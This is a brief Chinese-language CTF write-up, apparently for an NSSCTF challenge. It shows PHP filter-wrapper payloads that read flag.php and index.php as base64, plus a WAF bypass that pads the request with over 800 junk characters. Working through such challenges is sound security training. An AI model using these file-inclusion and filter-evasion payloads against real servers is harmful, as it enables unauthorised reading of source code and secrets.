







 

 

 

 

post提交参数flag

 

Include

尝试php伪协议读取flag.php

构造payload：

flag=php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php

 

 

 

 

提示nssctf waf！

 

利用php伪协议读取index.php

 

 

 

 

 

分析源码

首先输入字符要满足>800

其次过滤flag字符

添加脏数据

 

构造payload：

| a=cccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccc | cccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccccc&flag=php://filter/read=convert.base64-encode/resource=/var/www/html/flag.php |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
|                                                              |                                                              |

 

 

 

 

 